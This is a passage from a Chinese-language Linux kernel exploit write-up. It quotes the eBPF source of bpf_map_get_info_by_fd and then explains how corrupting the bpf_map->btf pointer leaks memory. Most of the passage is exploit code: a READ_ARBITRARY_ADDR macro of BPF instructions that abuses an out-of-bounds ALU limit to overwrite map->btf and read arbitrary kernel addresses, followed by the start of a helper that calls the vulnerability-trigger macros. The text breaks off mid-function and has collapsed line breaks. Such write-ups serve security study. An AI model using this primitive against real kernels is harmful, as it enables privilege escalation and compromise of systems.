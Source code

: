 对于 map 类型而言最终会调用到 bpf_map_get_info_by_fd() ，在该函数中  
会把 bpf_map->btf.id 拷贝给用户空间：  
```
static int bpf_map_get_info_by_fd(struct file *file,
                                  struct bpf_map *map,
                                  const union bpf_attr *attr,
                                  union bpf_attr __user *uattr)
{
        //...

        if (map->btf) {
                info.btf_id = btf_obj_id(map->btf);
                info.btf_key_type_id = map->btf_key_type_id;
                info.btf_value_type_id = map->btf_value_type_id;
        }
        //...

        if (copy_to_user(uinfo, &info, info_len) ||
            put_user(info_len, &uattr->info.info_len))
                return -EFAULT;

        return 0;
}

static int bpf_obj_get_info_by_fd(const union bpf_attr *attr,
                                  union bpf_attr __user *uattr)
{
        int ufd = attr->info.bpf_fd;
        struct fd f;
        int err;

        if (CHECK_ATTR(BPF_OBJ_GET_INFO_BY_FD))
                return -EINVAL;

        f = fdget(ufd);
        if (!f.file)
                return -EBADFD;

        if (f.file->f_op == &bpf_prog_fops)
                err = bpf_prog_get_info_by_fd(f.file, f.file->private_data, attr,
                                              uattr);
        else if (f.file->f_op == &bpf_map_fops)
                err = bpf_map_get_info_by_fd(f.file, f.file->private_data, attr,
                                             uattr);
```  
  
我们不难想到的是  
我们可以通过控制 btf 指针的方式完成任意地址读，代码如下：  
```
#define READ_ARBITRARY_ADDR(__map_fd, __idx)            \        /* extend the alu->limit and do the oob read */ \        BPF_READ_ARRAY_MAP_IDX(0, __map_fd, BPF_REG_7), \        BPF_MOV64_REG(BPF_REG_8, VULN_REG),             \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x1000),      \        BPF_ALU64_IMM(BPF_MUL, BPF_REG_8, 0x1000),      \        BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_8),   \        BPF_ALU64_IMM(BPF_MUL, VULN_REG, 0xd0),         \        BPF_ALU64_REG(BPF_SUB, BPF_REG_7, VULN_REG),    \        /* write the value into bpf_map->btf */         \        BPF_READ_ARRAY_MAP_IDX(__idx, __map_fd, BPF_REG_8),     \        BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_8, 0),   \        BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 0x58),        \        BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_1, 0)

static size_t read_arbitrary_addr_4_bytes(int map_fd, int idx)
{
    struct bpf_insn prog[] = {
        TRIGGER_VULN(map_fd),
        MAKE_VULN_REG(map_fd),
        READ_ARBITRARY_ADDR(map_fd, idx), 
```